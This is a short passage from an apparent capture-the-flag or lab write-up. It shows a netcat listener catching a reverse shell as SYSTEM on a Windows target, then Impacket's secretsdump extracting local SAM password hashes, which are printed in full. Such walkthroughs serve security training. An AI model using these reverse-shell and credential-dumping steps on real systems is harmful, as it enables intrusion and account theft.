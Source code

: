 Check the listener for reverse connection.

```
⛩\> nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.50.182.101] from (UNKNOWN) [10.200.185.100] 51609
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We got system level access. If you want you can dump admin hash. You need to download ‘sam and system’ files from target machine.

```
⛩\> secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```

